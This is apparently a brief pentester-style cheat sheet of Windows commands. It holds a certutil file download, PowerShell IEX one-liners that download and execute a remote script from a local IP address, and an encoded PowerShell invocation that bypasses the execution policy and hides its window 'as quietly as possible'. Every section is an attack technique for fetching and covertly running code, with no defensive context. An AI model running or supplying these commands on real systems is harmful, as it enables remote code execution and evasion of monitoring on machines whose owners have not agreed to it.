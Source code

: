 # DOS commands

## download file from http
```
certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip
```

# powershell commands

## download and execute script
```
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://192.168.69.69/script.ps1')"
IEX(New-Object Net.WebClient).downloadString('http://192.168.69.69/script.ps1')
```

## encoded command nop bypass hidden
## execute encoded command as quietly as possible
```
powershell.exe -nop -exec bypass -w hidden -enc BASE64STR
```
